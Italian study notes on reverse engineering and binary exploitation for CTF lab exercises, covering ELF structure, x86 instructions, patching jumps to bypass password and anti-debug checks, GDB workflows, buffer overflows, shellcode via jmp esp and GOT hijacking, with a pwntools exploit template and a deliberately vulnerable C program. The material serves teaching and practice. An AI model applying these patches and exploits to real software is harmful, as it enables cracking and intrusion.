# Introduzione
## File binari: caratteristiche e struttura in memoria
**ELF:**
    

Gli eseguibili hanno un formato che dipende dal sistema operativo specifico. In informatica il formato ELF è un formato standard comune per **file eseguibili,** **codice oggetto**, **librerie condivise** e **core dump** (è un file che contiene un snapshot della memoria al momento di un crash, così può essere ripreso il sistema)

 Ci sono singole sezioni mappate nella memoria, con formati `.text`, `.data`, `.bss` e `.rodata`. Il caricamento dipende dal programma e dalla modalità di caricamento degli indirizzi.


```python
+-------------------------+
| ELF Header              |
+-------------------------+
| Program Headers         |
+-------------------------+
| Section: .text          |  ← codice macchina (es x86-64)
+-------------------------+
| Section: .data          |  ← dati inizializzati
+-------------------------+
| Section: .rodata        |  ← dati in sola lettura
+-------------------------+
| Section: .bss           |  ← dati non inizializzati
+-------------------------+
| Section: .got           |  ← metodi e librerie esterne
+-------------------------+
```

- ***Un eseguibile ELF è un contenitore che include codice macchina x86-64 + metadati.***

**X86-64**

Un codice macchina comune a quasi tutti i compiter desktop e portatili è x86-64 (un set di istruzioni)

```
55 48 89 e5 48 83 ec 10
```

- ***x86-64 descrive le istruzioni CPU.***
- ***non ha struttura, è solo una sequenza di byte eseguibili***

dato in pasto ad un disassembler (tipo IDA) lo si può tradurre in assembly:

```nasm
push rbp
mov rbp, rsp
sub rsp, 0x10
```

## Registri 

- **Instruction Pointer (RIP)**: punta all’istruzione corrente del programma.
- **Stack Pointer (RSP)**: punta all’ultimo elemento nello stack (top dello stack). Lo stack cresce “verso il basso”.
- **Base Pointer (RBP)**: usato come riferimento fisso per accedere alle variabili locali e ai parametri della funzione nello stack.
- **Stack (RBP/RSP):** Lo spazio di memoria per le variabili locali
- **RAX/EAX:** Spesso usato per i valori di ritorno delle funzion
- **RDI, RSI, RDX:** Registri usati per passare i primi tre argomenti alle funzioni (es. in `strcmp` o `printf`)


## Istruzioni 

- **MOV \<dst>, \<src>** → copia \<src> in \<dst>
    
    Esempi:
    
    - MOV EAX, EBX → EAX = EBX
    - MOV EAX, 16 → EAX =16
    - MOV EAX, [ESP+4] → EAX = *(ESP+4)
    - MOV AL, ‘a’ → AL = 0x61
    (perchè `'a'` in ASCII ha il valore **0x61** (in esadecimale) o **97** in decimale, la memoria viene spesso mostrata in **hex**, quindi 0x61 corrisponde esattamente a quello che c’è in memoria.)
- **LEA \<dst>, \<src>** → Carica l’indirizzo effettivo/Load Effective Address di \<src> in \<dst>, usato per accedere elementi in buffer o array o per eseguire semplici operazioni matematiche.
    - LEA ECX, [EAX +3] → EAX = EAX +3
- **PUSH \<src>** → ****Decrementa RSP (Register Stack Pointer) e mette \<src> nello stack (lo decrementa per fare spazio)
    
    
    
- **POP \<dst>** → operazione inversa a quella precedente, viene assegnato a dst il valore che si trova in cima allo stack e poi viene incrementato RSP di 4
Nota che: PUSH EAX, POP EBX == MOV EBX, EAX
- **ADD \<dst>, \<src>** → Esegue \<dst> += \<src>
    - ADD EAX, 16 → EAX+=16
    - ADD AH, AL → AH +=AL
    - ADD ESP, 0x10 → rimuove 16 byte dallo stack (questo perchè:
        
        ```nasm
        la memoria cresce verso il basso quindi i valori degli indirizzi diminuiscono ad ogni push
        indirizzi alti      \<-- parte "alta" della memoria
        -----------------
        |   0x1004       |
        |   0x1003       |
        |   0x1002       |
        -----------------
        indirizzi bassi     \<-- top dello stack (RSP/ESP)
        quindi facendo ADD si va verso la parte alta della memoria, ossia si sottraggono byte dallo stack
        ```
        
- **SUB \<dst>, \<src>** → operazione inversa ad ADD

</aside>
❗Quindi riassuntino di POP, PUSH, ADD E SUB:

- **PUSH** → ESP *scende* → occupa spazio
- **POP** → ESP *sale* → libera spazio (legge il valore)
- **ADD ESP, x** → ESP *sale* → libera spazio **senza leggere i valori**
- **SUB ESP, x** → ESP *scende* → riserva spazio
</aside>

## Alcuni Flag

Le istruzioni x86 possono modificare un registro speciale chiamato FLAGS, che contengono flag ad 1-bit (es. OF, SF, ZF, AF, PF, CF). 

**Flag speciali sono:
-ZF, Zero Flag (impostata se il risultato dell’ultima operazione era zero)
-SF, Sign Flag (impostata se il risultato dell’ultima operazione era negativo)**

Esempio: 

```nasm
1)
MOV RAX, 555
SUB RAX, 555
	-> ZF = 1, SF =0
2)
MOV RAX, 125
SUB RAC, 555
	-> ZF = 0, SF=1
```
## Altre istruzioni
- **CMP \<dst>, \<src>**
    - Compara dst con src
    - Performa una sottrazione senza salvare il risultato (qui si distingue bene da SUB che altrimenti sovrascrive il registro dst con la sottrazione)
    - serve ad impostare i flag (per esempio voglio sapere se in un registro c’è il valore 8, potrei fare facendo `SUB REG, 8` e poi `JE uguale_8` e se dopo l’operazione ZF =1 allora so che nel registro ci stava 8…ma poi dovrei riaggiornarlo etc etc, `CMP REG, 8` e poi `JE uguale_8` fa la stessa cosa mantenendo REG invariato
### Salti
- **JMP \<dst>** → permette di saltare al\<dst>
    - JMP RAX → salta all’indirizzo salvato in RAX
    - JMP 0x1234 → salta all’indirizzo 0x1234
- **JXX \<dst>** → salto condizionato, usato per controllare il flusso del programma
    - JZ/JE → salto se ZF =1 (jump if zero/ jump if equal fanno la stessa identica cosa, controllano ZF quindi fuck it usa quello che vuoi)
    - JNZ/JNE → salta se ZF =0 (stessa considerazione fatta sopra)
    - JB/ JA → salta se \<dst> è minore (below) /maggiore (above) di \<src> senza considerare il segno (unsigned)
    - JL/JG → salta se \<dst> è minore (less)/maggiore(greater) di \<src> ma considerando anche il segno (signed)
    - esempio di uso
- **XOR** \<dst>, \<src> → esegue uno XOR tra \<dst> e \<src>
- **CALL** 0x123456 → chiama una subruotine/sottoprocedura
- **RET** → ritorna da una subroutine


<aside style="background-color:grey">
❓NOTA FONDAMENTALE:

- **Sintassi Intel (quella di IDA su Windows):** `DESTINAZIONE, SORGENTE`*(Esempio: "Metti in EAX il valore 5" → `MOV EAX, 5`)*.
- **Sintassi AT&T (quella di default di GDB su Linux):**`SORGENTE, DESTINAZIONE` *(Esempio: "Metti 5 in EAX" → `mov $5, %eax`)*.
</aside>


# Patching

Ci sono molti concetti coinvolti nella Reverse Engineering e uno di questi concetti è il **patching**.

**La patching** si riferisce alla modifica del flusso di un programma in un file binario per ottenere l'output desiderato. Per capirlo meglio, immagina di voler passare dal punto A al punto B ma c'è un ponte in mezzo e temi le altezze. Questo è il momento in cui vorresti avere il potere di essere teletrasportato e questo è ciò che è il **patching**.     

### 3 esempi di patch in hello_world

il programma in un certo punto del main controlla se la stringa inserita dall’utente è uguale alla password (che si trova dentro al file txt).  
Ciò viene fatto con la funzione ```_strncmp``` che riceve in input 2 stringhe e il numero massimo di caratteri che devono coincidere tra le due stringhe (in questo caso è stato impostato 8 quindi anche se inserisco la password sbagliata solo per un carattere in più il programma risponde con la flag)

  
si capisce che ```strncmp``` fa il compare tra rsi e rdi (che contengono le due stringhe) e inserisce il risultato intero in ```eax``` **(0 se uguali, 1 se diversi)**. ```test``` non fa altro che un and logico del contenuto di ```eax``` con se stesso. Se ```eax==0``` allora ```EAX and EAX ==0``` e viene impostato automaticamente il flag ```ZF=1``` (perchè è ```=0``` il risultato). il jump successivo risulta vero se la strinhga inserita dall’utente non è la password (perchè ```eax=1``` se sono diverse quindi ```ZF=0```)




**1. ```jnz → jz```**
    
    
**2. rimuovere il jump**
    
dal momento che il flusso del programma viene deviato solo se la password viene inserita sbagliata, togliendo il jump il programma prosegue stampando la flag.
    
`jnz short loc_994` occupa 2 byte, modificandoli con `90 90 (nop nop)` risulta:
    

    
**3. cambiare l’indirizzo di salto**

come funziona un jump:

1. jump condizionati →offset relativo (short 8 bit, near 16 bit)
2. jump non condizionati → offset relativo (short 8 bit, near 16 bit)
3. jump con registro → diretto
    

    | Istruzione | Usa offset relativo? |
    | --- | --- |
    | `je / jne / jnz / jg / jl …` | ✅ Sì |
    | `jmp label` | ✅ Sì |
    | `call label` | ✅ Sì |
    | `jmp reg` | ❌ No |
    | `jmp [mem]` | ❌ No |
    | `ret` | ❌ No |
    
nell’esercizio è usato un salto condizionato short → offset di 8 bit


Troviamo i byte che corrispondono all'istruzione di salto. 0C significa che salta di 13 byte (in realtà non sono quelli dell'immagine ma si capisce l'idea)


    qui si vede il codice che stampa la flag, selezioniamo la prima riga per identificare il codice


si trovano esattamente dopo i byte 75 0C che identificano il salto



quindi bisogna saltare di 0 (si modifica 0C in 00) e appare come nell'immagine (quel `$ + 2` sta per l'indirizzo in esadecimale +2)

### Patching del Binario

Quando un controllo (come un anti-debug o un login errato) ti blocca, puoi modificare il file binario:

1. **Individua l'istruzione:** Trova l'istruzione assembly da cambiare (es. `CALL` o `JZ/JNZ`).
2. **Trova gli Opcode (Hex):** Identifica i byte corrispondenti (es. `FF 13` per una `call`).
3. **Sostituisci:** Usa un editor esadecimale (come **Bless**) per rimpiazzare i byte.
    - **NOP (0x90):** "No Operation", utile per cancellare istruzioni senza rompere l'allineamento.
    - **XOR EAX, EAX (31 C0):** Utile per forzare una funzione a restituire 0 (successo).

# Debugging


Un debugger è un normale processo (ad esempio GDB) che può avviare un nuovo processo oppure collegarsi a uno già esistente.

Il processo controllato dal debugger è chiamato *debuggee*.

Un debuggee può essere controllato da un solo debugger alla volta, mentre un debugger può controllare più processi.

L’interazione tra debugger e debuggee è gestita dal kernel tramite meccanismidedicati, in particolare la system call `ptrace()`.


TUTTO questo avviene perché:
- il debugger usa `ptrace()`
- per:
    - leggere/scrivere memoria
    - fermare/continuare il processo
    - intercettare segnali (SIGTRAP)

## Riassumendo

Per gestire le interazioni tra debugger e debuggee, quando il debugger inserisce un breakpoint software, sovrascrive l’istruzione originale con l’istruzione int3 (opcode 0xCC), salvando il valore originale.


Quando il debuggee esegue `0xCC`, viene generata un’eccezione e il kernel notifica il debugger.

Il debugger riprende quindi il controllo del flusso di esecuzione, ripristina temporaneamente l’istruzione originale al posto di `0xCC`, esegue tale istruzione e, se necessario, reinserisce il breakpoint per proseguire il debug.



## Fondamenti Teorici

### Analisi Statica vs. Analisi Dinamica

- **Analisi Statica:** Esaminare il codice senza eseguirlo. Si usano strumenti come **IDA Pro** o **Ghidra** per visualizzare il "Graph View" (il flusso logico del programma)
    - anche comandi come `strings`
- **Analisi Dinamica:** Eseguire il programma e osservarne il comportamento in tempo reale usando un **debugger** come **GDB**

### Tecniche Anti-Debugging

Alcuni programmi cercano di impedire l'analisi dinamica:

- **Ptrace:** Un programma può chiamare `ptrace` su se stesso. Se fallisce, significa che c'è già un debugger collegato8
- **Funzioni init:** I controlli anti-debug spesso avvengono nella funzione `_start` o `init`, prima ancora che arrivi al `main`
- **Check ambientali:** Verificare il nome del processo padre (se è `gdb`) o la presenza di variabili d'ambiente particolari

Esempio:    
1. fare patch per poter fare controllo anti-debug (solitamente con nome `ptrace`) o togliere il check in generale.
NOTA: solitamente fatto nella funzione `init`  ma in generale prima del main (`_start`).
prova a fare `strings ./eseguibile | grep ptrace`
2. `b main` (o `b *main`)
3. `r` per runnare (altrimenti non viene caricato nulla in memoria e gli indirizzi iniziano con 0x000000…)
4. in qualsiasi momento fornire gli input richiesti dal programma
5. `disas main` per poter vedere in assembly (nota la sintassi è diversa da quella di ida, in caso usare quello)
6. `b* indirizzo_trovato_nel_main`
7. `c` per continuare l’esecuzione al prossimo db
8. fornire eventuali input
9. `info registers` per vedere quali registri ci sono
10. `x/s $rsi` per vedere il contenuto del registro rsi

## Comandi utili

Il comando `gdb ./nome_eseguibile` avvia l'analisi.

| **Comando** | **Descrizione** | **Esempio Pratico** |
| --- | --- | --- |
| **`break` (b)** | Imposta un punto di interruzione. | `b main` o `b *0x4008a8`  |
| **`run` (r)** | Avvia l'esecuzione del programma. | `run`  |
| **`disas`** | Mostra il codice assembly di una funzione. | `disas decrypt_flag`  |
| **`jump`** | Forza il programma a saltare a un indirizzo. | `jump showEmails`  |
| **`info registers`** | Mostra il valore attuale di tutti i registri. | `info registers`  |
| **`x/s`** | Esamina la memoria come stringa. | `x/s 0x555555549d0` 
`x/s $rdx` |
| **`printf`** | Stampa valori formattati (utile per i cast). | `printf "%s", (char *) flag_buf`  |

## Strategie Risolutive Comuni

1. **Recupero Flag in Memoria:** Molte sfide decriptano la flag in memoria poco prima di confrontarla con l'input dell'utente. Metti un breakpoint su `strcmp` o `strlen` e ispeziona i registri `RDI` e `RSI`.
2. **Forzatura del Flusso:** Se il programma non chiama la funzione che ti serve (es. `showEmails`), usa il comando `jump` in GDB per andarci manualmente.
3. **Osservazione dei Cicli:** Se la flag viene costruita carattere per carattere, metti un breakpoint all'interno del ciclo di manipolazione delle stringhe e osserva come cambia la variabile di destinazione (`t[rax]`).
4. **Bypass Anti-Debug:** Se vedi `ptrace`, patcha la chiamata con dei `NOP` o modifica il salto condizionale (`JNZ/JZ`) che segue il controllo per ignorare il fallimento.

### Flusso tipico

### Analisi Statica Preliminare

Prima di eseguire il codice, si cerca di capire cosa faccia il programma "sulla carta".

- **Identificazione delle stringhe:** Si cercano password o messaggi d'errore leggibili nel binario tramite il comando `strings`.
    - `strings nome_file | grep "CTF”`
- **Studio del flusso logico:** Si apre il file con un disassemblatore come **IDA** per visualizzare il grafo delle funzioni.
- **Ricerca di funzioni chiave:** Si cercano funzioni dai nomi espliciti come `decrypt_flag`, `showEmails` o `printFlag`.
- **Individuazione di protezioni:** Si controlla se sono presenti meccanismi anti-debug, spesso situati nella funzione `init` o `_start` prima del `main`

### Debugging Dinamico con GDB

Una volta che il programma è analizzabile, si passa all'esecuzione controllata.

- **Impostazione dei Breakpoint:** Si posizionano punti di interruzione (`break`) in punti strategici, come l'inizio del `main` o subito prima di una comparazione tra stringhe (`strcmp`).
- **Manipolazione del flusso:** Se il programma non raggiunge naturalmente la funzione desiderata, si può usare il comando `jump` per forzare l'esecuzione verso la funzione che stampa la flag.
- **Ispezione dei Registri e della Memoria:** * Si controllano i registri (con `info registers`) per vedere dove sono puntati gli argomenti delle funzioni
    - Si ispeziona la memoria (con `x/s`) per leggere i contenuti degli indirizzi puntati, rivelando spesso la flag in chiaro durante un confronto.

### Estrazione della Flag

Il passaggio finale consiste nel recuperare il segreto.

- **Lettura diretta:** In alcuni casi, basta stampare il contenuto di una variabile globale (es. `flag_buf`) dopo che è stata decriptata.
- **Ricostruzione iterativa:** Se la flag viene generata carattere per carattere in un ciclo, si osserva la variabile di destinazione a ogni iterazione fino al completamento della stringa

```
mov 0x200b4b(%rip),%rdx      # 0x6013e8 <flag_buf>
# viene messo il contenuto trovato all'indirizzo 0x6013e8 (a cui è stato dato nome flag_buf) dentro rdx
```

## PWNING

Il **PWN** consiste nel superare i limiti di memoria di un programma per controllarne il flusso. Il "segreto" è quasi sempre: **Riempire il buffer + Sovrascrivere l'obiettivo.**

### Scenari Classici di Attacco

| **Scenario** | **Cosa succede** | **Obiettivo** | **Esempio (tuoi esercizi)** |
| --- | --- | --- | --- |
| **Buffer Overflow** | Scrivi oltre il buffer per colpire una variabile vicina. | Cambiare un valore (es. da 0 a 1) per superare un `if`. | *No Rop*, *Enc PWN 0* |
| **Pointer Overwriting** | Sovrascrivi un indirizzo di memoria (puntatore) che il programma userà dopo. | Far eseguire al programma una funzione "segreta" o una shell. | *Java* |
| **RET Overwriting** | Sovrascrivi l' "Indirizzo di Ritorno" nello Stack. | Prendere il controllo totale quando la funzione finisce (`ret`). | ENC PWN 1, Hi |
| **Shellcode Attack** |  |  | ENC PWN 2, Handy ShellCode |

### 3. Sovrascrittura del Return Address (Scenario: `Enc PWN 1` e `Hi`)

In questi scenari, l'obiettivo non è più una variabile vicina al buffer, ma l'indirizzo che dice alla funzione dove tornare una volta finita.

- **Il Meccanismo**: Lo Stack contiene, in ordine: il tuo `buffer` → il `Base Pointer` → il `Return Address`.
- **La Sfida**: Devi trovare l'**Offset** (la distanza esatta) tra l'inizio del tuo buffer e l'indirizzo di ritorno per sovrascriverlo con precisione.
- L**a Tecnica del Pattern**: Si usa un "pattern ciclico" (una stringa di caratteri non ripetitivi) per far crashare il programma e vedere quale parte del pattern finisce nel registro **EIP** (32-bit) o **RIP** (64-bit).
    - `python3 -c "from pwn import cyclic; print(cyclic(300).decode())" > pattern`
    - `(gdb) r < pattern`
    - `python3 -c "from pwn import *; print(cyclic_find(indirizzo_dentro_eip_o_rbp_insomma_vedi_pattern_ripetuto_e_lo_riconosc))"` ritorna un valore, tipo 140

### 4. Shellcode Attack (Scenario: `HandyShell` e `Enc PWN 2`)

Non ti limiti a saltare a una funzione che esiste già, ma **inietti il tuo codice** (lo "shellcode") nel programma.

- **Cos'è lo Shellcode**: È una sequenza di byte che rappresenta istruzioni Assembly (solitamente per aprire una shell `/bin/sh`).
- **Scenario `Enc PWN 2`**:
    - Usi un overflow per sovrascrivere il ritorno con l'indirizzo di una funzione chiamata `lol()`.
    - La funzione `lol()` contiene l'istruzione `jmp %esp`, che dice al computer: "Vai a eseguire quello che trovi subito dopo nello stack".
    - Subito dopo l'indirizzo di `lol`, nel tuo payload, metti lo **shellcode**.

### 2. Comandi Fondamentali

### **Analisi (GDB)**

- `checksec`: Controlla le difese (NX, Canary, PIE). Se NX è "Disabled", puoi eseguire codice nello stack.
- `disas <funzione>`: Mostra il codice Assembly. Utile per trovare indirizzi (es. `bash` o `print_flag`).
- `pattern create 100`: Crea una stringa speciale per capire esattamente dopo quanti caratteri il programma crasha.
- `x/gx $rsp`: Guarda cosa c'è "in cima" alla pila (lo Stack) in quel momento.
- `x/4wx $eip`

### **Sfruttamento (Python + Pwntools)**

- `p64(0x1234)` / `p32(0x1234)`: Converte un indirizzo nel linguaggio binario del PC (Little Endian).
- `b"A" * N`: Crea il "padding" (spazzatura) necessario per arrivare al bordo del buffer.
- `p = process('./nome')`: Lancia il programma localmente.
- `p.sendline(payload)`: Invia il colpo al programma.
- `p.interactive()`: **Fondamentale.** Ti dà il controllo della shell (`$`) una volta che l'exploit ha funzionato.

---

### 3. Struttura per PWNING in python

```python
from pwn import *

# 1. Configurazione
target = "./programma_vulnerabile"
p = process(target)

# 2. Costruzione del Payload
# [Padding] + [Valore o Indirizzo da iniettare]
padding = b"A" * 64              # Quanta spazzatura serve per riempire il buco
segreto = p64(0x4007a2)          # L'indirizzo "magico" trovato con GDB oppure: str(p64(elf.symbols['print_flag_o_bash_o_altro']))
payload = padding + segreto

# 3. Attacco
p.sendline(payload)

# 4. Vittoria
p.interactive() # Se appare $, scrivi 'ls' e 'cat flag.txt'
# eventualmente print(p.recvall().decode()) per stampare solamente il risultato
```

---

### 4. Controllo protezioni con checksec

| **Protezione** | **Cosa significa per te** | **Situazione nei tuoi esercizi** |
| --- | --- | --- |
| **Arch** | Decide se usi `p32` o `p64`. | `pwn0` (32), `java` (64). |
| **Canary** | Se c'è, il buffer overflow è bloccato. | Assente in entrambi (Vittoria facile). |
| **PIE** | Se c'è, gli indirizzi cambiano sempre. | Assente (Gli indirizzi sono fissi). |
| **NX** | Se c'è, devi usare funzioni già esistenti. | Attivo (Hai dovuto puntare a `bash` o `print_flag`). |
| **RELRO** (RELocation Read Only/rilocazione di sola lettura) | <ul><li>FULL RELTRO: l’intero GOT è di sola lettura (per evitare GOT Hijackting)</li><li> Partial RELRO: parte del GOT è di sola lettura (compatibile con il lazy linking, possiamo fare GOT Hijacking)</li> |  |

```python
checksec no_rop
[*] '/mnt/c/Users/lindo/OneDrive/CyberSec/esercizi/Ch15/1_no_rop/no_rop'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
```


# PLT (Procedure Likinkage Table) & GOT (Global offset table)

## GOT

È possibile sfruttare le vulnerabilità di librerie caricate dinamicamente, in particolare quando questo avviene siamo interessati a caricare un nostro processo.

Questo lo si fa sfruttando il funzionamento interno del linking dinamico dei file ELF.

La GOT è una sezione della memoria di un programma informatico (eseguibili e librerie condivise) utilizza per consentire l’esecuzione corretta del codice del programma compilato (nel nostro caso file binari in formato ELF), indipendentemente dall’indirizzo di memoria in cui il codice viene caricato in fase di esecuzione.

Questa sezione è salvata all’interno di .got

## PLT

ELF utilizza PLT delle procedure per fornire l’indirezione. 


In IDA è possibile osservare l’offset che si riferisce alla GOT per chiamare la funzione di libreria. La vulnerabilità che sfruttiamo si basa sul caricamenteo della GOT: modificando l’offset è possibile chiamare una funzione arbitraria piuttosto che quella definita inizialmente.

Il GOT Hijacking funziona come segue:

1. sovrascrittura di una voce GOT tramite corruzione della memoria
2. il programma chiama la funzione PLT corrispondente che verrà distribuita attraverso il GOT
3. si ottiene il controllo della macchina

Su IDA, la sezione got.plt che indica gli indirizzi delle funzioni esterne chiamate (o non) durante l’esecuzione del programma si trova verso la fine del file ELF


notare in alto a destra la freccetta gialla che indica il punto del file in cui è contenuta la sezione visualizzata a schermo intero

`off_804a00c` è per esempio l’indirizzo dentro a got della funzione put

Esempio:
in un codice che ci permette di scrivere in qualsiasi indirizzo un valore:

```python
void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```
vorremmo poter eseguire la funzione `win` per poter fare `cat flag.txt`

L’esercizio ci permette già di scrivere in una riga got (da vedere quale) un valore che vogliamo sia l’indirizzo della funzione win.

Tuttavia dobbiamo scegliere una funzione il cui indirizzo si trova nella got e che viene chiamata successivamente all’assegnazione *(unsigned int *)address = value; (momento in cui avviene effettivamente l’assegnamento del valore nell’indirizzo). Abbiamo due possibilità:

1. puts
2. exit

entrambe vengono chiamate in main, ora basta trovare i loro indirizzi in got:

1. si può fare con ida come spiegato prima (trovi 0x`804a00c` per put, 0x`0804a014` per exit)
2. si può fare con gdb (prima avvia obv) 
    1. `info files` e trova l’intervallo in cui si trova la sezione .got nel file 
    2. `x/20xw 0x0804a000` esamina la sezione all’indirizzo iniziale
    ci interessano put e exit:
    
    
    
    che si trova all’indirizzo `0x804a00c`
    
    
    

Riassumendo si possono trovare gli indirizzi:

1. puts 0x`804a00c`
2. exit 0x`0804a014`

Quindi dati gli input corretti al programma, si può sovrascrivere l’indirizzo di chiiamata di puts (o exit) ed eseguire la funzione win , che aprirà la shell e ci permetterà di fare `cat flag.txt`

<aside>
❓usare la conversione da hex a decimale nel caso in cui scanf abbia %d invece che %x (mannaggia)

Esempio:
> `python3 -c "print(int('0804A01C', 16))"`
> `134520860`
> `python3 -c "print(int('080485C6', 16))"`
> `134514118`

Risultato esercizio NO_PIE etc:
You can just overwrite an address, what can you do?

> Input address
>
> 134520860
> Input value?
>
> 134514118
> The following line should print the flag
> 
